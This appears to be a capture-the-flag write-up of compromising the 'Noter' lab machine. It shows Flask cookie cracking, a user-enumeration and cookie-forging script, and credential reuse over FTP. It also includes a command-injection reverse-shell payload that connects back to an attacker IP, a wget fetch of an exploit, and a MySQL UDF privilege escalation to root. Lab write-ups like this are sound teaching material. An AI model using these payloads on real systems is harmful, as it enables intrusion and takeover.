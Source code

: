 # Noter

```shell
PORT     STATE SERVICE REASON
21/tcp   open  ftp     syn-ack ttl 63
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```

At firts I thought I had to do upnp spoofing but I quicly realised port 5000 it's just a web page. As I always think I tried to hack the main functionality in this case the notes you can create yet I couldn't. Then I looked at the session cookie and found a JWT (easy to identify since it starts with **ey**). However it is not exactly a JWT it is a flask JWT that can easily be cracked

```shell
flask-unsign --unsign --no-literal-eval --wordlist ~/wordlist/rockyou.txt --cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZGFzb3IifQ.YvkQDA.ElTcToWybDPRe6tSdECarYQg5qw
[*] Session decodes to: {'logged_in': True, 'username': 'dasor'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
```

I tried to create some cookies with names like administrator or admin but there was no success. However I found a way to enumerate users via the error page in the login. Invalid credentials means user does not exist and Invalid login means invalid password, So I did a bash script (quite slow) to find a user

```shell
#!/bin/bash

if [ $# -ne 1 ]
then
        echo "Use: $0 wordlist"
        exit 1
fi

if [ ! -r $1 ]
then
        echo "error wordlist not found or not readable"
        exit 1
fi

while read line
do
        curl -s -X POST -d "username=$line&password=caca" http://10.10.11.160:5000/login | grep "Invalid login" &>/dev/null
        if [ $? -eq 0 ]
        then
                echo " [+] user found: $line"
                cookie=$(flask-unsign --sign --secret 'secret123' --cookie "{'logged_in': True, 'username': '$line'}")
                echo "  [+] this is the cookie: $cookie"
                exit 1
        fi
        echo "[+] testing user: $line"
done < $1
```

And found the user blue

```shell
./script.sh wl
...
 [+] user found: blue
        [+] this is the cookie: eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YvkR6A.cLoP9y92fQTuJmlVe3XAY2gaqLc

```

Now we are a VIP user and we have access to some notes that have credentials


```
Hello, Thank you for choosing our premium service. Now you are capable of
doing many more things with our application. All the information you are going
to need are on the Email we sent you. By the way, now you can access our FTP
service as well. Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.
(Additional information are included in the attachments we sent along the
Email)

We all hope you enjoy our service. Thanks!

ftp_admin
```

I tried to login as blue with ssh but it did not work, however I tried ftp and it worked!.

```shell
ftp noter.htb
Connected to noter.htb.
220 (vsFTPd 3.0.3)
Name (noter.htb:dasor): blue
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
226 Directory send OK.
```

The policy pdf had interesting data like the line saying "4. Default user-password generated by the application is in the format of "username@site\_name!" (This applies to all your applications)". So that means we can connect as ftp\_admin with password ftp\_admin@Noter!


```shell
Connected to noter.htb.
220 (vsFTPd 3.0.3)
Name (noter.htb:dasor): ftp_admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
```

Once unziped the backups contains the source code and a password for a SQL database. Also in the source code a flaw can be spotted

```python
# Export local
@app.route('/export_note_local/<string:id>', methods=['GET'])
@is_logged_in
def export_note_local(id):
    if check_VIP(session['username']):

        cur = mysql.connection.cursor()

        result = cur.execute("SELECT * FROM notes WHERE id = %s and author = %s", (id,session['username']))

        if result > 0:
            note = cur.fetchone()

            rand_int = random.randint(1,10000)
            command = f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"
            subprocess.run(command, shell=True, executable="/bin/bash")

            return send_file(attachment_dir + str(rand_int) +'.pdf', as_attachment=True)

        else:
            return render_template('dashboard.html')
    else:
        abort(403)

```

Thee line that starts with subprocess.run makes a RCE possible so if we create a payload.md and export it form our pc a revershe shell can be obtained

```python
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.60",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' #
```

Then let's fix the tty with

```shell
[dasor@archlinux ~]$ nc -lvp 7777
Connection from 10.10.11.160:42716
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-5.0$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo; fg
[1]  + continued  nc -lvp 7777

bash-5.0$ stty rows 30 columns 132
bash-5.0$
```

Know the flag can be obtained and the way to the privilege escalation is clear

## Root flag

Since we have the root password for the SQL database let's just escalate from there with this known [exploit](https://www.exploit-db.com/exploits/1518)

```shell
bash-5.0$ wget 10.10.14.60:8000/1518.c
--2022-08-14 15:53:41--  http://10.10.14.60:8000/1518.c
Connecting to 10.10.14.60:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3378 (3.3K) [text/plain]
Saving to: ‘1518.c’

1518.c                           100%[==========================================================>]   3.30K  --.-KB/s    in 0s

2022-08-14 15:53:41 (8.72 MB/s) - ‘1518.c’ saved [3378/3378]

bash-5.0$ mv 1518.c raptor_udf2.c
bash-5.0$ gcc -g -c raptor_udf2.c
bash-5.0$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
bash-5.0$ mysql -u root -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 20303
Server version: 10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> create table foo(line blob);
Query OK, 0 rows affected (0.014 sec)

MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
Query OK, 1 row affected (0.003 sec)
MariaDB [mysql]> select @@plugin_dir;
+---------------------------------------------+
| @@plugin_dir                                |
+---------------------------------------------+
| /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
+---------------------------------------------+
1 row in set (0.000 sec)
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.001 sec)

MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.000 sec)

MariaDB [mysql]> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.000 sec)
MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
+----------------------------------+
| do_system('chmod u+s /bin/bash') |
+----------------------------------+
|                                0 |
+----------------------------------+
1 row in set (0.002 sec)

MariaDB [mysql]> exit
Bye
bash-5.0$ bash -p
bash-5.0# whoami
root
```
